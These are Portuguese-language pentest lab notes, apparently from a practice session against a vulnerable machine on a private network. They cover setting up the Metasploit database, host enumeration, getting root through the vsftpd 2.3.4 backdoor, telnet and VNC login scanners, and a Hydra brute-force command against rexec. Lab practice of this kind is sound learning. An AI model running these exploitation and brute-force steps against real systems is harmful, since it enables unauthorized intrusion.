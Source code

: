 
# Conectando no Banco de Dados (Parte mais chata)

```bash
sudo apt install postgresql postgresql-contrib &&
sudo service postgresql start

msfdb init
```

## Dentro do MSFCONSOLE

```bash
msfconsole
db_connect msf:msf@127.0.0.1:5432/msf
```

---

## Criando Workspace desse Computador

![Criando Workspace](https://github.com/user-attachments/assets/c79ab59f-974d-4781-bb66-693c1e4cff30)

## Serviços

![Serviços](https://github.com/user-attachments/assets/e2602863-3e4e-426a-a54a-eca74d17c896)

## Informações de Host

![Informações de Host](https://github.com/user-attachments/assets/121e0dc0-f0ed-43af-81b0-7d5af6a9aaee)

## Procurando Diretórios Escondidos

![Diretórios Escondidos](https://github.com/user-attachments/assets/f4ec5416-ea24-4f5a-8234-1894a40596b9)

## Aprofundando

![Profundando 2](https://github.com/user-attachments/assets/fdf0e3c5-cae1-4044-a42e-541c8ab3ced3)
![image](https://github.com/user-attachments/assets/d5d2abe2-15f3-42d0-9437-a090990f9c7c)
### Mais info da vuln 512 https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/scanner/rservices/rexec_login.md

---
# INVASÕES
192.168.100.148  21    tcp    ftp          open   vsftpd 2.3.4
![image](https://github.com/user-attachments/assets/abc64304-25ad-45f5-97ee-bf44b724ac86)

## Depois de conseguir acesso como root usando o payload ( Salvar sessão ):

```bash
CTRL + Z
Y

sessions        # Ver sessões ativas
sessions -i 2   # Acessar a sessão 2
```

![image](https://github.com/user-attachments/assets/ea3a1675-41b7-4832-b96c-d626c48420bb)

---

## PAYLOADs

```text
auxiliary/scanner/telnet_login => Telnet porta 23
scanner/vnc/vnc_login          => VNC (usar depois com: vncviewer 192.168.100.102:5900 :password)
```

# IVASÂO 2 
192.168.100.148  23    tcp    telnet       open   Linux telnetd
![image](https://github.com/user-attachments/assets/e4a966e1-1675-47cf-8bb2-ee265cab82af)



## Força Bruta com Nmap e Hydra

```bash

# Depois:
hydra -L /home/luan/Desktop/porta_512_logins/usuarios_512.txt \
      -P /home/luan/Desktop/porta_512_logins/passwd_512.txt \
      -vV 192.168.100.102 rexec
```
